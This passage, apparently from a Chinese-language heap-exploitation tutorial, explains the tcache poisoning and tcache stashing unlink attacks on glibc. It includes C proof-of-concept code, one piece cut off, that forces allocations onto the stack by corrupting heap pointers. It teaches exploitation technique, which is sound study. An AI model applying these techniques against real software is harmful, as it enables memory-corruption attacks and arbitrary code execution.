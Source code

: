 ```
     intptr_t *c = malloc(128);
     printf("2nd malloc(128): %p\n", c);
     printf("We got the control\n");

     assert((long)&stack_var == (long)c);
     return 0;
}
```

程序先申请了两个大小是 128 的 chunk，然后 free。128 在 tcache 的范围内，因此 free 之后该 chunk 被放到了 tcache 中

![image-20220328155917620](https://s2.loli.net/2022/03/28/JCHI857y4Gunalt.png)

然后修改 tcache 的 next ，通过

`b[0] = (intptr_t)&stack_var;`

![image-20220328155935282](https://s2.loli.net/2022/03/28/KPZlTUh4AotwnzB.png)

把b的fd指针改成栈上地址，接下来只需进行两次 `malloc(128)` 即可控制栈上的空间。

## tcache stashing unlink attack

这种攻击利用的是 tcache bin 有剩余 (数量小于 `TCACHE_MAX_BINS` ) 时，同大小的 small bin 会放进 tcache 中 (这种情况可以用 `calloc` 分配同大小堆块触发，因为 `calloc` 分配堆块时不从 tcache bin 中选取)。在获取到一个 `smallbin` 中的一个 chunk 后会如果 tcache 仍有足够空闲位置，会将剩余的 small bin 链入 tcache ，在这个过程中只对第一个  bin 进行了完整性检查，后面的堆块的检查缺失。当攻击者可以写一个 small bin 的 bk 指针时，其可以在任意地址上写一个 libc  地址 (类似 `unsorted bin attack` 的效果)。构造得当的情况下也可以分配 fake chunk 到任意地址。

我们按照释放的先后顺序称 `smallbin[sz]` 中的两个 chunk 分别为 chunk0 和 chunk1。我们修改 chunk1 的 `bk` 为 `fake_chunk_addr`。同时还要在 `fake_chunk_addr->bk` 处提前写一个可写地址 `writable_addr` 。调用 `calloc(size-0x10)` 的时候会返回给用户 chunk0 (这是因为 smallbin 的 `FIFO` 分配机制)，假设 `tcache[sz]` 中有 5 个空闲堆块，则有足够的位置容纳 `chunk1` 以及 `fake_chunk` 。在源码的检查中，只对第一个 chunk 的链表完整性做了检测 `__glibc_unlikely (bck->fd != victim)` ，后续堆块在放入过程中并没有检测。

因为 tcache 的分配机制是 `LIFO` ，所以位于 `fake_chunk->bk` 指针处的 `fake_chunk` 在链入 tcache 的时候反而会放到链表表头。在下一次调用 `malloc(sz-0x10)` 时会返回 `fake_chunk+0x10` 给用户，同时，由于 `bin->bk = bck;bck->fd = bin;` 的 unlink 操作，会使得 `writable_addr+0x10` 处被写入一个 libc 地址。

```
#include <stdio.h>
#include <stdlib.h>

int main(){
    unsigned long stack_var[0x10] = {0};
    unsigned long *chunk_lis[0x10] = {0};
    unsigned long *target;

    fprintf(stderr, "This file demonstrates the stashing unlink attack on tcache.\n\n");
    fprintf(stderr, "This poc has been tested on both glibc 2.27 and glibc 2.29.\n\n");
    fprintf(stderr, "This technique can be used when you are able to overwrite the victim->bk pointer. Besides, it's necessary to alloc a chunk with calloc at least once. Last not least, we need a writable address to bypass check in glibc\n\n");
    fprintf(stderr, "The mechanism of putting smallbin into tcache in glibc gives us a chance to launch the attack.\n\n");
    fprintf(stderr, "This technique allows us to write a libc addr to wherever we want and create a fake chunk wherever we need. In this case we'll create the chunk on the stack.\n\n");

    // stack_var emulate the fake_chunk we want to alloc to
    fprintf(stderr, "Stack_var emulates the fake chunk we want to alloc to.\n\n");
    fprintf(stderr, "First let's write a writeable address to fake_chunk->bk to bypass bck->fd = bin in glibc. Here we choose the address of stack_var[2] as the fake bk. Later we can see *(fake_chunk->bk + 0x10) which is stack_var[4] will be a libc addr after attack.\n\n");

    stack_var[3] = (unsigned long)(&stack_var[2]);

    fprintf(stderr, "You can see the value of fake_chunk->bk is:%p\n\n",(void*)stack_var[3]);
```
